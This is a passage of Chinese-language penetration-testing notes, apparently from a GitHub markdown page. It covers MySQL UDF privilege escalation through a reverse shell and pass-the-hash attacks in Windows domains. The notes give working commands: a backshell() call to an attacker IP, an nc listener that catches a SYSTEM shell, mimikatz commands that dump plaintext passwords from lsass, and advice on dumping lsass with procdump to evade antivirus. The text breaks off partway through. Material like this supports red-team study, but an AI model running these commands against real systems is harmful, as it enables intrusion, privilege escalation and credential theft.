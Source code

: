 #### 5. 反连端口提权
实际上也是需要借助udf提权，这种方法没有试过，先记录着以后需要用到再试试。

首先利用MySQL客户端工具连接MySQL服务器，提交udf提权脚本，然后执行下面的操作。

- 执行命令

```shell
mysql.exe -h 192.168.1.1 -uroot -p
Enter password:
mysql>\.c:\mysql.txt
mysql>select backshell("[自己的IP]",[自己的端口]);
```

- 本地监听反弹的端口

```shell
nc.exe -vv -l -p 4444
```

成功后将获得一个system权限的cmdshell。



## 0x0b PTH

在拿下一台主机的最高权限后，要拿下域内其他主机的系统账户，可以通过PTH的方法。

#### 1. NTLM和SMB

- SMB的认证是基于NTLM协议，NTLM协议使用了hash进行认证，在认证过程中，直接提供hash可以认证成功。因此我们通过工具直接发送hash，就可以利用smb来执行命令，这就是Pass The Hash。
- 需要开启445服务端口。
- 工具：wmiexec、psexec、psexec64、psexec.py（python版，需要安装扩展库impacket）

#### 2. 获取hash

在windows系统中一般都有这个进程：lsass.exe，win10以下，该文件有system权限，保存明文密码。

一般在Windows系统中，在获取最高权限后，我们用一些工具可以抓取到系统的账户。

常用工具：mimikatz、lazagne、Getpassword等。

- mimikatz.exe

> - 在交互式的shell中打开，命令行中输入：
>
> ```shell
> mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit        # 加不加双引号都可以
> ```
>
> 即可得到明文账户密码。
>
> - 界面方式打开
>
> 管理员方式打开mimikatz.exe
> 输入：log                用来保存
> 输入：privilege::debug                注入到lsass.exe进程
> 输入：sekurlsa::logonpasswords            即可破解密码，然后打开目录下的mimikatz.log文件查看明文账户密码
>
> - 有杀软时procdump下载然后mimikatz加载
>
> 当有360或火绒等杀软时，没法直接上传mimikatz到靶机中进行密码获取，这时可以把lsass.exe进程用procdump工具下载下来。
>
> 如何判断有无火绒？
>
> 进程中存在usysdiag.exe    即为火绒的进程。
>
> procdump命令
>